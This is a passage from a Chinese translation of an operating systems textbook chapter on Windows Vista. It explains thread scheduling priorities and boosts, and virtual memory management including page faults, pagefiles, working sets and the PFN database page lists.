如果一个线程在这个时刻已到就绪，则调度程序将会被唤醒并且如果新的可运行线程有较高的优先级，那么和情形1的情况类似，当前的线程会被抢占。
现在让我们来看看具体的调度算法。Win32 API提供两个API来影响线程调度。首先，有一个叫SetPriorityClass的用来设定被调用进程中所有线程的优先级。其等级可以是：实时、高、高于标准、标准、低于标准和空闲的。优先级决定进程的先后顺序。（在Vista系统中，进程优先级等级也可以被一个进程用来临时地把它自己标记为后台运行（background）状态，即它不应该被任何其他的活动进程所干扰。）注意优先级是对进程而言的，但是实际上会在每个线程被创建的时候通过设置每个线程开始运行的基本优先级可以影响进程中每条线程的实际优先级。
第二个就是SetThreadPriority。它根据进程的优先级类来设定进程中每个线程的相对优先级（可能地，但是不必然地，调用线程）。可划分如下等级：紧要的、最高的、高于标准的、标准的、低于标准的、最低的和休眠的。时间紧急的线程得到最高的非即时的调度优先，而空闲的线程不管其优先级类别都得到最低的优先级。其他优先级的值依据优先级的等级来定，依次为（+2,+1,0,-1,-2）。进程优先级等级和相对线程优先级的使用使得能够更容易地确定应用程序的优先级。
调度程序按照下列方式进行调度。系统有32个优先级，从0到31。依照图11-27的表格，进程优先级和相对线程优先级的组合形成32个绝对线程优先级。在表格的数字决定了线程的基本优先级（base priority）。除此之外，每条线程都有当前优先级（current priority），这个当前的优先级可能会高于（但是不低于）前面提到的基本优先级，关于这一点我们稍后将会讨论。
为了使用这些优先级进行调度，系统维护一个包含32个线程列表的队列，分别对应图11-27中的0～31的不同等级。每个列表包含了就绪线程对应的优先级。基本的调度算法是从优先级队列中从31到0的从高优先级到低优先级的顺序查找。一旦一个非空的列表被找到，等待队首的线程就运行一个时间片。如果时间配额已用完,这个线程排到其优先级的队尾，而排在前面的线程就接下来运行。换句话说，当在最高的优先级有多条线程处于就绪状态，它们就按时间片轮转法来调度。如果没有就绪的线程，那么处理器空闲，并设置成低功耗状态来等待中断的发生。
值得注意的是，调度取决于线程而不是取决于线程所属的进程。因此调度程序并不是首先查看进程然后再是进程中的线程。它直接找到线程。调度程序并不考虑哪个线程属于哪个进程，除非进行线程切换时需要做地址空间的转换。
为了改进在具有大量处理器的多处理器情况下的调度算法的可伸缩性，调度管理器尽力不给全局的优先级表的数组加上一个全局的锁来实现同步访问控制。相反地，对于一个准备到CPU的线程来说，若是处理器已就位，则可以让它直接进行，而不必进行加锁操作。
对于每一个进程，调度管理器都维护了一个理想处理器（ideal processor）记录，它会在尽可能的时候让线程在这个理想处理器上运行。这改善了系统的性能，因为线程所用到的数据驻留在理想处理器的内存中。调度管理器可以感知多处理器的环境，并且每一个处理器有自己的内存，可以运行需要任意大小内存空间的程序——但是如果内存不在本地，则会花费较大的时间开销。这些系统被认为是NUMA（非统一内存地址）设备。调度管理器努力优化线程在这类计算机上的分配。当线程出现缺页错误时，内存管理器努力把属于理想处理器的NUMA节点的物理页面分配给线程。
队首的队列在图11-28中表示。这个图表明实际上有四类优先等级：实时级、用户级、零页和空闲级,即当它为-1时有效。这些值得我们深入讨论。优先级16～31属于实时级的一类，用来为构建满足实时性约束的系统。处于实时级的线程优先于任何动态分配级别的线程，但是不先于DPC和ISR。如果一个实时级的应用程序想要在系统上运行，它就要求设备驱动不能运行DPC和ISR更多的额外时间，因为这样可能导致这些实时线程错过它们的截止时间。
用户态下不能运行实时级的线程。如果一个用户级线程在一个高优先级运行，比如说，键盘或者鼠标线程进入了一个死循环，键盘或者鼠标永远得不到运行从而系统被有效地挂起。把优先级设置为实时级的权限，需要启用进程令牌中相应的特权。通常用户没有这个特权。
应用程序的线程通常在优先级1～15上运行。通过设定进程和线程的优先级，一个应用程序可以决定哪些线程得到偏爱（获得更高优先级）。ZeroPage系统线程运行在优先级0并且把所有要释放的页转化为全部包含0的页。每一个实时的处理器都有一个独立的ZeroPage线程。
每个线程都有一个基于进程优先级的基本优先级和一个线程自己的相对优先级。用于决定一个线程在32个列表中的哪一个列表进行排队的优先级取决于当前优先级，通常是得到和当前线程的基本优先级一样的优先级，但并不总是这样。在特定的情况下，非实时线程的当前优先级被内核一下子提到尽可能高的优先级（但是不会超过优先级15）。因为图11-28的排列以当前的优先级为基础，所以改变优先级可以影响调度。对于实时优先级的线程，没有任何的调整。
现在让我们看看一个线程在什么样的时机会得到提升。首先，当输入输出操作完成并且唤醒一个等待线程的时候，优先级一下子被提高，给它一个快速运行的机会，这样可以使更多的I/O可以得到处理。这里保证I/O设备处于忙碌的运行状态。提升的幅度依赖于输入输出设备，典型地磁盘片对应于1级，串行总线对应于2级，6级对应于键盘，8级对应于声卡。
其次，如果一个线程在等待信号量，互斥量同步或其他的事件，当这些条件满足线程被唤醒的时候，如果它是前台的进程（该进程控制键盘输入发送到的窗口）的话，这个线程就会得到两个优先级的提升，其他情况则只提升一个优先级。这倾向于把交互式的进程优先级提升到8级以上。最后，如果一个窗口输入就绪使得图形用户接口线程被唤醒，它的优先级同样会得到大幅提升。
提升不是永远的。优先级的提升是立刻发生作用的，并且会引起处理器的再次调度。但是如果一个线程用完它的时间分配量，它就会降低一个优先级而且排在新优先级队列的队尾。如果它两次用完一个完整的时间配额,它就会再降一个优先级，如此下去直到降到它的基本优先级，在基本优先级得到保持不会再降，直到它的优先级再次得到提升。
还有一种情况就是系统变动（fiddle）优先级。假设有二个线程正在一个生产者-消费者类型问题上一起协同工作。生产者的工作需要更多的资源，因此，它得到高的优先级，例如说12，而消费者得到的优先级为4。在特定的时刻，生产者已经把共享的缓冲区填满,信号量发生阻塞，如图11-29a所示。
如图11-29b所示，在消费者得到调度再次运行之前，一个无关的线程在优先级8已就绪得到调度运行。只要这个线程想要运行,它将会一直运行，因为这个线程的优先级高于消费者的优先级，而比它优先级高的生产者由于阻塞也不能够运行。在这种情况下，直到优先级为8的线程运行完毕，生产者才有机会再次运行。
Windows通过一个称为大hack来解决此类问题的。系统记录一个已就绪的线程自从上次得到运行后距离当前的时间有多久。如果它超过一个特定的阈值，它就被提升到15级的优先级并得到两个时间配额的运转。这就可能解决生产者阻塞的情况。在两个时间配额用完之后，它的优先级一下子又回到原来的优先级而不是逐级别地缓慢下降到原来的优先级。或许较好的解决方法是把那些用完时间配额的线程的优先级不断地降低。毕竟，问题不是由饥饿的线程所引起的，而是由贪婪线程造成的。这一问题广为人知地称作优先级倒转（priority inversion）。
在优先为16条线程获得互斥量却长时间得不到调度的时候会发生一个类似的问题，致使更重要的系统线程由于等待互斥量而不能运行发生饥饿。这一问题在操作系统里通过在那些只需要短时间拥有互斥量的线程在很忙时禁用调度来解决。（在一个多处理器上，一个Spin锁应被使用。）
在离开调度的主题之前，关于时间配额值得再讨论一下。在Windows客户端系统上，默认值是20毫秒。在Windows服务器系统上，它是180毫秒。短的时间配额在交互性上会更好些，然而长的时间配额能减少切换提高效率。如果需要，时间配额可以手动地设置成默认值的2倍、4倍或6倍。
最后对调度算法来说，当新窗口变成前台窗口的时候，它的全部在窗口中注册的线程都会得到一个较长的时间配额。这一个变化给它们较多的处理器时间，从而为这些窗口刚刚转移到前台的应用程序带来了更好的用户体验。
Windows Vista有一个极端复杂的虚拟内存系统。这一系统包括了大量Win32函数，这些函数通过内存管理器（NTOS执行层最大的组件）来实现。在下面章节中，我们将依次了解它的基本概念、Win32的API调用以及它的实现。
在Windows Vista系统中，每个用户进程都有它自己的虚拟地址空间。对于x86机器，虚拟地址是32位的；因此，每个进程拥有4GB大小的虚拟地址空间。其中用户态进程的虚拟地址大小为2GB（在服务器系统中，用户态进程的虚拟地址大小可以配置成3GB）。另外的2GB（或1GB）空间为内核进程所用。对于运行在64位上的x64机器而言，地址可以是32位的也可以是64位的。32位地址是为了应用那些“需要通过WOW64来运行在64位系统上的32位进程”而保留的。由于内核拥有大量可用的地址空间，如果需要的话，32位进程可以使用全部4GB大小的地址空间。对于x86和x64机器，虚拟地址空间需要分页，并且页的大小一般都是固定在4KB——虽然在有些情况下每页的大小也可被分为4MB（通过只使用页目录而忽略掉页表）。
图11-30表示了三个x86进程的虚拟地址空间。每个进程的底部和顶端64KB的虚拟地址空间通常保留不用。这种做法是为了辅助发现程序错误而设置的。无效的指针通常标志为0或者-1，使用这样的指针会导致立即陷入中断，而不会读取垃圾信息、甚至写入错误的内存地址。
从64KB开始为用户私有的代码和数据。这些空间可以扩充到几乎2个GB。而最顶端的2GB包含了操作系统部分，包括代码、数据、换页内存池和非换页内存池。除了每一进程的虚拟内存数据（像页表和工作集的列表），上面的2GB全部作为内核的虚拟内存、并在所有的用户进程之中共享。内核虚拟内存仅在内核态才可以访问。共享进程在内核部分的虚拟内存的原因是：当一个线程进行系统调用的时候，它陷入内核态之后不需要改变内存映射。所有要做的只是切换到线程的内核栈。由于进程在用户态下的页面仍然是可访问的，内核态下的代码在读取参数和访问缓冲时，就不用在地址空间之间来回切换、或者临时将页面进行两次映射。这里的权衡是通过用较小的进程私有地址空间，来换取更快的系统调用。
当运行在内核态的时候，Windows允许线程访问其余的地址空间。这样该线程就可以访问所有用户态的地址空间，以及对该进程来说通常不可访问的内核地址空间中的区域，例如页表的自映射区域。在线程切换到用户态之前，必须切换到它最初的地址空间。
1.虚拟地址分配
虚拟地址的每页处于三种状态之一：无效、保留或提交。无效页面（invalid page）是指一个页面没有被映射到一个内存区对象（section object），对它的访问会引发一个相应的页面失效。一旦代码或数据被映射到虚拟页面，就说一个页面处于提交（committed）状态。在提交的页上发生页面失效会导致如下情况：将一个包含了引起失效的虚拟地址的页面映射到这样的页面——由内存区对象所表示，或被保存于页面文件之中。这种情况通常发生在需要分配物理页面，以及对内存区对象所表示的文件进行I/O来从硬盘读取数据的时候。但是页面失效的发生也可能是页表正在更新而造成的，即物理页面仍在内存的高速缓存中，这种情况下不需要进行I/O。这些叫做软异常（soft fault），稍后我们会更详细地讨论它们。
虚拟页面还可以处于保留的（reserved）状态。保留的虚拟页是无效的，但是这些页面不能被内存管理器用于其他目的而分配。例如，当创建一个新线程时，用户态栈空间的许多页保留于进程的虚拟地址空间，仅有一个页面是提交的。当栈增长时，虚拟内存管理器会自动提交额外的页面，直到保留页面耗尽。保留页面的功效是：可以保证栈不会太长而覆盖其他进程的数据。保留所有的虚拟页意味着栈最终可以达到它的最大尽寸；而栈所需要的连续虚拟地址空间的页面，也不会有用于其他用途的风险。除了无效、保留、提交状态，页面还有其他的属性：可读、可写及可运行（在AMD64兼容的处理器下）。
2.页面文件
关于后备存储器的分配有一个有趣的权衡，已提交页面没有被映射于特定文件。这些页使用了页面文件（pagefile）。问题是该如何以及何时把虚拟页映射到页面文件的特定位置。一个简单的策略是：当一个页被提交时，为虚拟页分配一个硬盘上页面文件中的页。这会确保对于每一个有必要换出内存的已提交页，都有一个确定的位置写回去。
Windows使用一个适时（just-in-time）策略。直到需要被换出内存之前，在页面文件中的具体空间不会分配给已提交的页面。硬盘空间当然不需要分配给永远不换出的页面。如果总的虚拟内存比可用的物理内存少，则根本不需要页面文件。这对基于Windows的嵌入式系统是很方便的。这也是系统启动时的方式，因为页面文件是在第一个用户态进程smss.exe启动之后才初始化的。
在预分配策略下，用于私有数据（如栈、写时复制代码页）的全部虚拟内存受到页面文件大小的限制。通过适时分配的策略，总的虚拟内存大小是物理内存和页面文件大小的总和。既然相对物理内存来说硬盘足够大与便宜，提升性能的需求自然比空间的节省更重要。
有关请求调页，需要马上进行初始化从硬盘读取页的请求——因为在页入（page-in）操作完成之前，遇到页面失效的线程无法继续运行下去。对于失效页面的一个可能的优化是：在进行一次I/O操作时预调入一些额外的页面。然而，对于修改过的页写回磁盘和线程的执行一般并不是同步的。对于分配页面文件空间的适时策略便是利用这一点，在将修改过的页面写入页面文件时提升性能：修改过的页面被集中到一起，统一进行写入操作。由于只有当页面被写回时页面文件的空间才真正被分配，可以通过排列使页面文件中的页面较为接近甚至连续，来对大批写回页面时的寻找次数进行优化。
当存储在页面文件中的页被读取到内存中时，直到它们第一次被修改之前，这些页面一直保持它们在页面文件中的位置。如果一个页面从没被修改过，它将会进入到一个空闲物理页面的列表中去——这个表称作后备链表（standby list），这个表中的页面可以不用写回硬盘而再次被使用。如果它被修改，内存管理器将会释放页面文件中的页，并且内存将保留这个页的惟一副本。这是内存管理器通过把一个加载后的页标识为只读来实现的。线程第一次试图写一个页时，内存管理器检测到它所处的情况并释放页面文件中的页，再授权写操作给相应的页，之后让线程再次进行尝试。
Windows支持多达16个页面文件，通常覆盖到不同的磁盘来达到较高的I/O带宽。每一个页面文件都有初始的大小和随后依需要可以增长到的最大空间，但是在系统安装时就创建这些文件达到它的最大值是最好的。如果当文件系统非常满却需要增长页面文件时，页面文件的新空间可能会由多个碎片所组成，这会降低系统的性能。
操作系统通过为进程的私有页写入映射信息到页表入口，或与原页表入口相对应的共享页的内存区对象，来跟踪虚拟页与页面文件的映射关系。除了被页面文件保留的页面外，进程中的许多页面也被映射到文件系统中的普通文件。
程序文件中的可执行代码和只读数据（例如EXE或DLL）可以映射到任何进程正在使用的地址空间。因为这些页面无法被修改，它们从来不需要换出内存，然而在页表映射全部被标记为无效后，可以立即重用物理页面。当一个页面在今后再次需要时，内存管理器将从程序文件中将其读入。
有时候页面开始时为只读但最终被修改。例如，当调试进程时在代码中设定中断点，或将代码重定向为进程中不同的地址，或对于开始时为共享的数据页面进行修改。在这些情况下，像大多数现代操作系统一样，Windows支持写时复制（copy-on-write）类型的页面。这些页面开始时像普通的被映射页面一样，但如果试图修改任何部分页面，内存管理器将会建立一份私有的、可写的副本。然后它更新虚拟页面的页表，使之指向那个私有副本，并且使线程重新进行写操作——这一次将会成功。如果这个副本之后需要被换出内存，那么它将被写回到页面文件而不是原始文件中。
除了从EXE和DLL文件映射程序代码和数据，一般的文件都可以映射到内存中，使得程序不需要进行显式的读写操作就可以从文件引用数据。I/O操作仍然是必要的，但它们由内存管理器通过使用内存区对象隐式提供，来表示内存中的页面和磁盘中的文件块的映射。
内存区对象并不一定和文件相关。它们可以和匿名内存区域相关。通过映射匿名内存区对象到多个进程，内存可以在不分配磁盘文件的前提下共享。既然内存区可以在NT名字空间给予名字，进程可以通过用名字打开内存区对象、或者复制进程间的内存区对象句柄的方式来进行通信。
3.大物理内存寻址
多年前，当16位（或20位）的地址空间还作为标准的时候，机器已有兆字节的物理内存，人们努力想出各种技术使得程序可以使用更多的物理内存、而不是去适应有限的地址空间。这些技术通常基于存储器组转换（bank switching），使得一个程序可以突破16或者20位的限制，替换掉自己的一些内存块。在刚引入32位计算机时，大多数桌面计算机只有几个兆的物理内存。然而随着内存在集成电路上变得更加密集，可用内存开始迅速增长。这推动了服务器的发展，因为服务器上的应用程序往往需要更多的内存。英特尔的Xeon芯片支持物理地址扩展（PAE），物理内存寻址空间从32位变为36位，意味着一个单一的系统可以支持高达64GB的物理内存。这远远大于2G或者3G——单个进程可以在32位的用户模式寻址的虚拟地址空间，然而一些像SQL数据库这样的大型应用软件恰恰被设计为运行在一个单个进程的寻址空间中，因此存储器组转换已经过时了，取代它的是地址窗口扩展（Address Windowing Extensions，AWE）。这种机制允许程序（以正确的特权级运行）去请求物理内存的分配。进程可以保留所需的虚拟地址，并请求操作系统进行虚拟地址与物理地址间的映射。在所有的服务器应用64位寻址方式前，AWE一直充当权宜之计的角色。
Win32 API包含了大量的函数来支持一个进程显式地管理它自己的虚拟内存，其中最重要的函数如图11-31所示。它们都是在包含一个单独的页或一个由两个或多个在虚拟地址空间中连续页的序列的区域上进行操作的。
前四个API函数是用来分配、释放、保护和查询虚拟地址空间中的区域的。被分配的区域总是从64KB的边界开始，以尽量减少移植到将来的体系结构的问题（因为将来的体系结构可能使用比当前使用的页更大的页）。实际分配的地址空间可以小于64KB，但是必须是一个页大小的整数倍。接下来的两个API给一个进程把页面固定到内存中以防止它们被替换到外存以及撤销这一性质的功能。举例来说，一个实时程序可能需要它的页面具有这样的性质以防止在关键操作上发生页面失效。操作系统强加了一个限制来防止一个进程过于“贪婪”：这些页面能够移出内存，但是仅仅在整个进程被替换出内存的时候才能这么做。当该进程被重新装入内存时，所有之前被指定固定到内存中的页面会在任何线程开始运行之前被重新装入内存。尽管没有从图11-31中体现出来，Windows Vista还包含一些原生API函数来允许一个进程访问其他进程的虚拟内存。前提是该进程被给予了控制权，即它拥有一个相应的句柄。
列出的最后四个API函数是用来管理内存映射文件的。为了映射一个文件，首先必须通过调用CreateFileMapping来创建一个文件映射对象（见图11-23）。这个函数返回一个文件映射对象（即一个内存区对象）的句柄，并且可以选择是否为该操作添加一个名字到Win32地址空间中，从而其他的进程也能够使用它。接下来的两个函数从一个进程的虚拟地址空间中映射或取消映射内存区对象之上的视图。最后一个API能被一个进程用来映射其他进程通过调用CreateFileMapping创建并共享出来的映射，这样的映射通常是为了映射匿名内存而建立的。通过这样的方式，两个或多个进程能够共享它们地址空间中的区域。这一技术允许它们写内容到相互的虚拟内存的受限的区域中。
运行在x86处理器上的Windows Vista操作系统为每个进程都单独提供了一个4GB大小的按需分页（demand-paged）的线性地址空间，不支持任何形式的分段。从理论上说，页面的大小可以是不超过64KB的2的任何次幂。但是在Pentium处理器上，页面正常情况下固定地设置成4KB大小。另外，操作系统可以使用4MB的页来改进处理器存储管理单元中的快表（Translation Lookaside Buffer，TLB）的效率。内核以及大型应用程序使用了4MB大小的页面以后，可以显著地提高性能。这是因为快表的命中率提高了，并且访问页表以寻找在快表中没有找到的表项的次数减少了。
调度器选择单个线程来运行而不太关心进程，存储管理器则不同，它完全是在处理进程而不太关心线程。毕竟，是进程而非线程拥有地址空间，而地址空间正是存储管理器所关心的。当虚拟地址空间中的一片区域被分配之后，就像图11-32中进程A被分配了4片区域那样，存储管理器会为它创建一个虚拟地址描述符（Virtual Address Descriptor，VAD）。VAD列出了被映射地址的范围，用来表示作为后备存储的文件以及文件被映射区域起始位置的节区以及权限。当访问第一个页面的时候，创建一个页目录并且把它的物理地址插入进程对象中。一个地址空间被一个VAD的列表所完全定义。VAD被组织成平衡树的形式，从而保证一个特定地址的描述符能够被快速地找到。这个方案支持稀疏的地址空间。被映射的区域之间未使用的地址空间不会使用任何内存中或磁盘上的资源，从这个意义上说，它们是“免费”的。
1.页面失效处理
当在Windows Vista上启动一个进程的时候，很多映射了程序的EXE和DLL映像文件的页面可能已经在内存中，这是因为它们可能被其他进程共享。映像中的可写页面被标记成写时复制（copy-on-write），使得它们能一直被共享，直到内容要被修改的那一刻。如果操作系统从一次过去的执行中认出了这个EXE，它可能已经通过使用微软称之为超级预读取（SuperFetch）的技术记录了页面引用的模式。超级预读取技术尝试预先读入很多需要的页面到内存中，尽管进程尚未在这些页面上发生页面失效。这一技术通过重叠从磁盘上读入页面和执行映像中的初始化代码，减小了启动应用程序所需的延时。同时，它改进了磁盘的吞吐量，因为使用了超级预读取技术以后，磁盘驱动器能够更轻易地组织对磁盘的读请求来减少所需的寻道时间。进程预约式页面调度（prepaging）技术也用到了系统启动、把后台应用程序移到前台以及休眠之后重启系统当中。
存储管理器支持预约式页面调度，但是它被实现成系统中一个单独的组件。被读入到内存的页面不是插入到进程的页表中，而是插入到后备列表中，从而使得在需要时可以不访问磁盘就将它们插入到进程中。
未被映射的页面稍微有些不同。它们没有被通过读取文件来初始化。相反，一个未被映射的页面第一次被访问的时候，存储管理器会提供一个新的物理页面，该页面的内容被事先清零（为了安全方面的原因）。在后续的页面失效处理过程中，未被映射的页面可能会被从内存中找到，否则的话，它们必须被从页面文件中重新读入内存。
存储管理器中的按需分页是通过页面失效来驱动的。在每次页面失效发生的时候，会发生一次到内核的陷入。内核将建立一个说明发生了什么事情的机器无关的描述符，并把该描述符传递给存储管理器相关的执行部件。存储管理器接下来会检查引发页面失效的内存访问的有效性。如果发生页面失效的页面位于一个已提交的区域内，存储管理器将在VAD列表中查找页面地址并找到（或创建）进程页表项。对于共享页面的情况，存储管理器使用与内存区对象关联的原始页表项来填写进程页表中的新页表项。
不同处理器体系结构下的页表项的格式可能会不同。对于x86和x64，一个被映射页面的页表项如图11-33所示。如果一个页表项被标记为有效，它的内容会被硬件读取并解释，从而虚拟地址能够转换成正确的物理地址。未被映射的页面也有对应的页表项，但是这些页表项被标记成无效，硬件将忽略这些页表项除该标记之外的部分。页表项的软件格式与硬件格式有所不同，软件格式由存储管理器决定。例如，对于一个未映射的页面，它必须在使用前分配和清零，这一点可以通过页表项来表明。
页表项中有两个重要的位是直接由硬件更新的，它们是访问位（access bit）和脏位（dirty bit）。这两个位跟踪了什么时候一个特定的页面映射用来访问该页面以及这个访问是否以写的方式修改了页面的内容。这确实很有助于提高系统性能。因为存储管理器可以使用访问位来实现LRU（Least-Recently Used，最近最少使用）类型的页面替换策略。LRU原理是，那些最长时间没有被使用过的页面有最小的可能性在不久的将来被再次使用。访问位使存储管理器知道一个页面被访问过了，脏位使存储管理器知道一个页面被修改了，或者更重要的是，一个页面没有被修改。如果一个页面自从从磁盘上读到内存后没有被修改过，存储管理器就没有必要在将该页面用到其他地方之前将页面内容写回磁盘了。
正如表11-33所示，x86体系结构通常使用32位大小的页表项，而x64体系结构使用64位大小的页表项。在域上面的唯一区别是x64的物理页号域是30位，而不是20位。然而，现今存在的任何x64处理器所支持的物理页面的数量都要远小于x64体系结构所能表示的数量。x86体系结构也支持一种特殊的物理地址扩展（Physical Address Extension，PAE）。PAE模式允许处理器访问超过4GB的物理内存，附加的物理页框位要求PAE模式下的页表项也是64位。
每个页面失效都可以归入以下五类中的一类：
1)所引用的页面没有提交。
2)尝试违反权限的页面访问。
3)修改一个共享的写时复制页面。
4)需要扩大栈。
5)所引用的页已经提交但是当前没有映射。
第一种和第二种情况是由于编程错误引起。如果一个程序试图使用一个没有一个有效映射的地址或试图进行一个称为访问违例（access violation）的无效操作（例如试图写一个只读的页面），通常的结果是，这个进程会被终止。访问破坏的原因通常是坏指针，包括访问从进程释放的和被解除映射的内存。
第三种情况与第二种情况有相同的症状（试图写一个只读的页面），但是处理方式是不一样的。因为页面已经标记为写时复制，存储管理器不会报告访问违例，相反它会为当前进程产生一个该页面的私有副本，然后返回到试图写该页面的线程。该线程将重试写操作，而这次的写操作将会成功完成而不会引发页面失效。
第四种情况在线程向栈中压入一个值，而这个值会被写到一个还没有被分配的页面的情况下发生。存储管理器程序能够识别这种特殊情况。只要为栈保留的虚拟页面还有空间，存储管理器就会提供一个新的物理页面，将该页面清零，最后把该页面映射到进程地址空间。线程在恢复执行的时候会重试上次引发页面失效的内存访问，而这次该访问会成功。
最后，第五种情况就是常见的页面失效。这种异常包含下述几种情况。如果该页是由文件映射的，内存管理器必须查找该页与内存区对象结合在一起的原型页表等类似的数据结构，从而保证在内存中不存在该页的副本。如果该页的副本已经在内存中，即在另一个进程的页面链表已经存在该页面的副本，或者在后备、已修改页链表中，则只需要共享该页即可。否则，内存管理器分配一个空闲的物理页面，并安排从磁盘复制文件页。
如果内存管理器能够从内存中找到需要的页而不是去磁盘查找从而响应页面失效，则称为软异常（soft fault）。如果需要从磁盘进行复制，则称为硬异常（hard fault）。软异常同硬异常相比开销更小，对于应用程序性能的影响很小。软异常出现在下面场景中：一个共享的页已经映射到另一个进程；请求一个新的全零页，或所需页面已经从进程的工作集移除，但是还没有重用。
当一个物理页面不再映射到任何进程的页表，将进入以下三种状态之一：空闲、修改或后备。内存管理器会立刻释放类似那些已结束进程的栈页面这样不再会使用的页面。根据判断映射页面的页表项中的上次从磁盘读出后的脏位是否设置，页面可能会再次发生异常，从而进入已修改链表或者后备链表（standby list）。已修改链表中的页面最终会写回磁盘，然后移到后备链表中。
内存管理器可以根据需要从空闲链表或者后备链表中分配页面。它在分配页面并从磁盘复制之前，总是在已修改链表和后备链表中检查该页面是否已经在内存中。Windows Vista中的预约式调页机制通过读入那些未来可能会用到的页面并把它们插入后备链表的方式将硬异常转化为软异常。内存管理器通过读入成组的连续页面而不是仅仅一个页面来进行一定数量的普通预约式调页。多余调入的页面立刻插入后备链表。而由于内存管理器的开销主要是进行I/O操作引起的，因而预约式调页并不会带来很大的浪费。与读入一簇页面相比，仅读入一个页面的额外开销是可以忽略的。
图11-33中的页表项指的是物理页号，而不是虚拟页号。为了更新页表（以及页目录）项，内核需要使用虚拟地址。Windows使用如图11-34所示的页目录表项中的自映射（self-map）表项将当前进程的页表和页目录映射到内核虚拟地址空间。通过映射页目录项到页目录（自映射），就具有了能用来指向页目录项（图11-34a）和页表项（图11-34b）的虚拟地址。每个进程的自映射占用4MB内核地址空间（x86上）。幸运的是，该4MB地址空间是同样一块地址空间。
2.页面置换算法
当空闲物理页面数量降得较低时，内存管理器开始从内核态的系统进程以及用户态进程移走页面。目标就是使得最重要的虚拟页面在内存中，而其他的在磁盘上。决定什么是重要的需要技巧。Windows通过大量使用工作集来解决这一问题。工作集处在内存中，不需要通过页面失效即可使用的映射入内存的页面。当然，工作集的大小和构成随着从属于进程的线程运行来回变动。
每个进程的工作集由两个参数描述：最小值和最大值。这两个参数并不是硬性边界，因而一个进程在内存中可能具有比它的工作集最小值还小的页面数量（在特定的环境下），或者比它的工作集最大值还大得多的页面数量。每个进程初始具有同样的最大值和最小值的工作集，但这些边界随着时间的推移是可以改变的，或是由包含在作业中的进程的作业对象决定。根据系统中的全部物理内存大小，这个默认的初始最小值的范围是20～50个页面，而最大值的范围是45～345个页面。系统管理员可以改变这些默认值。尽管一般的家庭用户很少去设置，但是服务器端程序可能需要设置。
只有当系统中的可用物理内存降得很低的时候工作集才会起作用。其他情况下允许进程任意使用它们选择的通常远远超出工作集最大值的内存。但是当系统面临内存压力的时候，内存管理器开始将超出工作集上限最大的进程使用的内存压回到它们的工作集范围内。工作集管理器具有三级基于定时器的周期活动。新的活动会加入到相应的级别。
1)大量的可用内存：扫描页面，复位页面的访问位，并使用访问位的值来表示每个页面的新旧程度。在每个工作集内保留使用一个估算数量的未使用页面。
2)内存开始紧缺：对每个具有一定比例未用页面的进程，停止为工作集增加页面，同时在需要增加一个新的页面的时候换出最旧的页面。换出的页面进入后备或者已修改链表。
3)内存紧缺：消减（也即减小）工作集，通过移除最旧的页面从而降低工作集的最大值。
平衡集管理器（balance set manager）线程调用工作集管理器，使得其每秒都在运行。工作集管理器抑制一定数量的工作从而不会使得系统过载。它同时也监控要写回磁盘的已修改链表上的页面，通过唤醒ModifiedPageWriter线程使得页面数量不会增长得过快。
3.物理内存管理
上面提到了物理页面的三种不同链表，空闲链表、后备链表和已修改链表。除此以外还有第四种链表，即全部被填零的空闲页面。系统会频繁地请求全零的页面。当为进程提供新的页面，或者读取一个文件的最后部分不足一个页面时，需要全零页面。将一个页面写为全零是需要时间的，因此在后台使用低优先级的线程创建全零页是一个较好的方式。另外还有第五种链表存放有硬件错误的页面（即通过硬件错误检测）。
系统中的所有页面要么由一个有效的页表项索引，要么属于以上五种链表中的一种，它们的全体称为页框号数据库（PFN数据库）。图11-35表明PFN数据库的结构。该表格由物理页框号索引。表项都是固定长度的，但是不同类型的表项使用不同的格式（例如共享页面相对于私有页面）。有效的表项维护页面的状态以及指向该页面数量的计数。工作集中的页面指出哪个表项索引它们。还有一个指向该页的进程页表的指针（非共享页），或者指向原型页表的指针（共享页）。
此外还有一个指向链表中下一个页面的指针（如果有的话），以及其他的若干诸如正在进行读和写的域以及标志位等。这些链表链接在一起，并且通过下标指向下一个单元，不使用指针，从而达到节省存储空间的目的。另外用物理页面的表项汇总在若干指向物理页面的页表项中找到的脏位（即由于共享页面）。表项还有一些别的信息用来表示内存页面的不同，以便访问那些内存速度更快的大型服务器系统上（即NUMA-非均衡存储器访问的机器）。
工作集管理器和其他的系统线程控制页面在工作集和不同的链表间移动。下面对这些转变进行研究。当工作集管理器将一个页面从某个工作集中去掉，则该页面按照自身是否修改的状态进入后备或已修改链表的底部。这一转变在图11-36的（1）中进行了说明。
这两个链表中的页面仍然是有效的页面，当页面失效发生的时候需要它们中的一个页，则将该页移回工作集而不需要进行磁盘I/O操作（2）。当一个进程退出，该进程的非共享页面不能通过异常机制回到以前的工作集，因此该进程页表中的有效页面以及挂起和已修改链表中的页面都移入空闲链表（3）。任何该进程的页面文件也得到释放。
其他的系统调用会引起别的转变。平衡集管理器线程每4秒运行一次来查找那些所有的线程都进入空闲状态超过一定秒数的进程。如果发现这样的进程，就从物理内存去掉它们的内核栈，这样的进程的页面也如（1）一样移动到后备链表或已修改链表。
两个系统线程——映射页面写入器（mapped page writer）和已修改页面写入器（modified page writer），周期性地被唤醒来检查是否系统中有足够的干净页面。如果没有，这两个线程从已修改链表的顶部取出页面，写回到磁盘，然后将这些页面插入后备链表（4）。前者处理对于映射文件的写，而后者处理页面文件的写。这些写的结果就是将已修改（脏）页面移到后备（干净）链表中。
之所以使用两个线程是因为映射文件可能会因为写的结果增长，而增长的结果就需要对磁盘上的数据结构具有相应的权限来分配空闲磁盘块。当一个页面被写入时如果没有足够的内存，就会导致死锁。另一个线程则是解决向页面文件写入页时的问题。
下面说明图11-36中另一个转换。如果进程解除页映射，该页不再和进程相关从而进入空闲链表（5），当该页是共享的时候例外。当页面失效会请求一个页框给将要读入的页，此时该页框会尽可能从空闲链表中取下（6）。由于该页会被全部重写，因此即使有机密的信息也没有关系。
栈的增长则是另一种情况。这种情况下，需要一个空的页框，同时安全规则要求该页全零。由于这个原因，另一个称为零页面线程（ZeroPage thread）的低优先级内核线程（参见图11-28）将空闲链表中的页面写全零并将页面放入全零页链表（7）。全零页面很可能比空闲页面更加有用，因此只要当CPU空闲且有空闲页面，零页面线程就会将这些页面全部写零，而在CPU空闲的时候进行这一操作也是不增加开销的。
所有这些链表的存在导致了一些微妙的策略抉择。例如，假设要从磁盘载入一个页面，但是空闲链表是空的，那么，要么从后备链表中取出一个干净页（虽然这样做稍后有可能导致缺页），要么从全零页面链表中取出一个空页（忽略把该页清零的代价），系统必须在上述两种策略之间做出选择。哪一个更好呢？
